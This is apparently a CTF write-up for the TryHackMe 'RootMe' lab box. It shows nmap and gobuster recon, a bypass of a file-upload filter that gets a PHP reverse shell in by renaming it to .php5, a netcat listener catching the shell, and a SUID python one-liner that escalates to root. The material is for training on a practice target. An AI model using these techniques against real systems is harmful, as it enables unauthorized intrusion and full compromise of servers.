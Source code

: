 # RECON
## Nmap
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $sudo nmap -sS -sV 10.10.211.17
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 13:20 IST
Nmap scan report for 10.10.211.17
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.86 seconds

```

## Gobuster
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.211.17 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.211.17
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/27 13:23:15 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.211.17/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.211.17/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.211.17/panel/]
/server-status        (Status: 403) [Size: 277]                                 
/uploads              (Status: 301) [Size: 314] [--> http://10.10.211.17/uploads/]

```
# Gain Access
- we have a hidden directory /panel/

  ![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/4c87140b-b27f-4dab-884c-9d5e6b24efb7)

- we will upload our file to get shell on our machine.
- We cannot upload php file on Web Application. We have to bypass it.


![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/687e26b5-21f0-434d-a39b-4a613fc86360)


- We can change extension to php5 and it uploads files successfully
- tehn start netcat listener at given port 
- Goto /uploads directory and open php5 file.

```shell
┌─[✗]─[noxi0us@parrot]─[~/Desktop/tools/TRYHACKME/CTF/RootMe]
└──╼ $sudo nc -lvnp 1234
[sudo] password for noxi0us: 
listening on [any] 1234 ...
connect to [10.8.22.172] from (UNKNOWN) [10.10.85.148] 33340
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:49:55 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data

```

- To get tty shell

`python -c 'import pty; pty.spawn("/bin/bash");'`


- Search for file user.txt
`find / -type f -name user.txt 2> /dev/null`

# Priv esc

- now search for SUID permissions and find weird looking path.

`find / -user root -perm /4000 2> /dev/null`

`find / type -f -user root -perm -u=s 2> /dev/null`

- we see that /usr/bin/python is available
- Now search suid permission bypass on Gtfobins.github.io

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/06a44f18-5633-4940-8fb9-10432ccd4f99)

- To get tty shell


`python -c 'import pty; pty.spawn("/bin/bash");'`


```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## flag
```shell
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

# whoami 
root

# find / -type f -name *.txt 2> /dev/null
find / -type f -name *.txt 2> /dev/null
/root/root.txt
cat root.txt
THM{*******************}
```
